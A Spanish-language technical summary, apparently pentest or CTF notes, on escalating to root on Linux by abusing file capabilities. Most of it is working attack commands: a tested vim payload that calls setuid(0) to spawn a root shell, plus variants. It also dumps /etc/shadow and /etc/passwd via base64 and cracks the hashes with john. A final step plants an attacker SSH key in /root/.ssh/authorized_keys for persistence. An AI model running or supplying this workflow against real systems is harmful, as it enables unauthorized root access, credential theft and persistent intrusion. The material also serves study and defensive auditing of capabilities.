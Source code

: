 Resumen técnico — Escalada vía Linux Capabilities (ejemplo con `vim`)

1. Concepto

* Las **capabilities** delegan privilegios específicos a binarios sin usar SUID.
* Ejemplos útiles para escalada:

  * `cap_setuid+ep`: permite llamar `setuid()` y fijar UID=0.
  * `cap_dac_read_search+ep`: leer archivos ignorando DAC (p. ej., `/etc/shadow`).
* Sufijos:

  * `p` (permitted), `e` (effective). Para explotar normalmente necesitas **`+ep`**.

2. Enumeración

```bash
# listar recursivo, silenciando errores
getcap -r / 2>/dev/null

# comprobar capability concreta
getcap /usr/bin/vim
```

Salida típica vulnerable:

```
/home/alper/vim = cap_setuid+ep
```

Nota: no verás “s” de SUID (`ls -l` no lo mostrará) porque no es SUID; es **capability**.

3. Explotación (cap\_setuid en `vim`)

* Causa-efecto: si `vim` tiene `cap_setuid+ep`, desde `vim` puedes ejecutar Python/Ex-commands que llaman `setuid(0)` y luego un shell.
* Payload probado (Python 3 embebido en `vim`):

```bash
./vim -c ':py3 import os; os.setuid(0); os.execv("/bin/sh",["sh","-p","-c","reset; exec sh"])'
```

Resultados esperados:

```
# id
uid=0(root) gid=1000(...) groups=...
```

Variantes (si tu build no tiene `+python3`):

```bash
# con :terminal si está habilitado
./vim -c ':set shell=/bin/sh | :set shellcmdflag=-pc | :terminal reset; exec sh'

# con :! si la capability ya te elevó (algunas builds aplican setuid implícito)
./vim -c ':!sh -p'
```

4. Explotación (cap\_dac\_read\_search)
   Si ves:

```
/usr/bin/base64 = cap_dac_read_search+ep
```

entonces lectura privilegiada:

```bash
/usr/bin/base64 /etc/shadow | /usr/bin/base64 -d > /tmp/shadow.dump
/usr/bin/base64 /etc/passwd | /usr/bin/base64 -d > /tmp/passwd.dump
unshadow /tmp/passwd.dump /tmp/shadow.dump > /tmp/hashes.txt
john /tmp/hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

5. Detalles prácticos

* Las capabilities viven en **xattrs**; copiarlas con `cp` normal suele **perderlas**. Verifica siempre con `getcap`.
* `setcap`/`getcap` vienen de `libcap2-bin`. Solo root (o `CAP_SETFCAP`) puede asignarlas:

  ```bash
  setcap cap_setuid+ep /ruta/binario
  setcap -r /ruta/binario   # retirar
  ```
* No es detectable con `find ... -perm -04000` (eso solo ve SUID). Debes usar `getcap`.

6. Flujo de trabajo recomendado

```bash
# 1) Enumerar
getcap -r / 2>/dev/null

# 2) Clasificar por capability
#   - cap_setuid+ep  -> intenta setuid(0) + shell (p.ej., payload de vim).
#   - cap_dac_*+ep   -> vuelca /etc/shadow, claves en /root, etc.

# 3) Validar
id; whoami

# 4) Persistencia mínima (si ya eres root)
echo 'ssh-rsa AAAA... attacker@host' >> /root/.ssh/authorized_keys
```
